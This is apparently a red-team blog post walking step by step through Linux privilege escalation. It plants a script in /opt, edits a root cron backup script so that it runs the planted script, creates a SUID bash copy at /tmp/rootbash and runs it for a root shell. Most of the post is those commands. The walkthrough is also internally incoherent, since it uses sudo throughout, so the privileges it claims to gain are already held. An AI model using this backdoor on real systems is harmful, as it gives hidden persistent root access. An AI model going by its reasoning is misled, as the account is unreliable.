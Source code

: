 ```yaml
---
title: "
Privilege Escalation Using Cron and Rsync"
date: 2023-02-05 14:15:24
categories: [privilege-escalation, linux]
tags: [redteam, privilege-escalation, linux]
---
```


Many systems rely on automated scripts for maintenance and backups. These scripts, if poorly configured or inadequately protected, can be exploited for privilege escalation. Recently, we identified a vulnerability in a system where a backup script was used to gain root access. This article details how we exploited this vulnerability and the steps taken to gain elevated privileges.

#### Step 1: Gaining Initial Access 

We obtained SSH access to the target system using user credentials. This initial access was essential to explore and identify potential vulnerabilities in the system.

#### Step 2: Identifying the Attack Vector 
During our system analysis, we observed that a backup script was being periodically executed with root privileges. The script located at `/usr/local/bin/backup.sh` used `rsync` to synchronize files from the `/opt` directory to `/backup/opt/`. This cron job was set to run at system boot.
The content of the existing backup script was:


```bash
#!/bin/bash

echo "$(date): Executing backup" >> /var/log/backup.log

while true; do
    rsync -av --delete /opt/ /backup/opt/
    sleep 3
done
```

#### Step 3: Creating the Malicious Script 

To exploit this configuration, we created a malicious script to be executed as part of the backup process. This malicious script creates a SUID shell, allowing any user who executes the shell to gain root privileges.


```bash
sudo nano /opt/pre_backup.sh
```

The content of the script is:


```bash
#!/bin/bash

# Log execution
echo "$(date): Executing pre_backup.sh" >> /var/log/pre_backup.log

# Create a SUID shell
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```

#### Step 4: Modifying the Backup Script 

With the malicious script in place, we modified the existing backup script to call our malicious script during each execution.


```bash
sudo nano /usr/local/bin/backup.sh
```

The modified backup script is:


```bash
#!/bin/bash

echo "$(date): Executing backup" >> /var/log/backup.log

while true; do
    rsync -av --delete /opt/ /backup/opt/
    
    # Execute the malicious script
    /opt/pre_backup.sh
    
    sleep 3
done
```

#### Step 5: Restarting the System 

To ensure the changes take effect, we restarted the system:


```bash
sudo reboot
```

Although the cron job is configured to run at boot, it is not necessary to reboot the system. We can ensure that the backup script is running and manually call the malicious script. First, we check if the backup script is running:

```bash
ps aux | grep backup
```

If the backup script is not running, we can start it manually:

```bash
sudo /usr/local/bin/backup.sh &
```

#### Step 6: Verifying the Execution of the Malicious Script 

After rebooting, we checked the log file to confirm the execution of the malicious script:


```bash
sudo cat /var/log/pre_backup.log
```

#### Step 7: Gaining Root Access 
We confirmed that the SUID shell was created at `/tmp/rootbash`:

```bash
ls -l /tmp/rootbash
```

By executing the SUID shell, we obtained a root shell:


```bash
/tmp/rootbash -p
```

### Conclusion 

This process highlighted a common vulnerability in many systems: poorly protected backup and maintenance scripts. To prevent such vulnerabilities, it is crucial to follow strict security practices, including:

- Reviewing and restricting file and script permissions.

- Implementing logs and alerts for suspicious activities.

- Conducting regular security audits on automated scripts.

Exploiting backup scripts for privilege escalation is a classic example of how IT security requires attention to detail and a proactive approach to risk mitigation.

### Security Warning 

This article is provided for educational and testing purposes only in controlled environments. Unauthorized use of the techniques described on real systems is illegal and unethical. Always obtain explicit permission before conducting security tests.


---

**References:**  
1. [HackTricks: Privilege Escalation via Cron Jobs](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)
 
2. [TryHackMe Linux Privilege Escalation Room](https://tryhackme.com/room/linprivesc)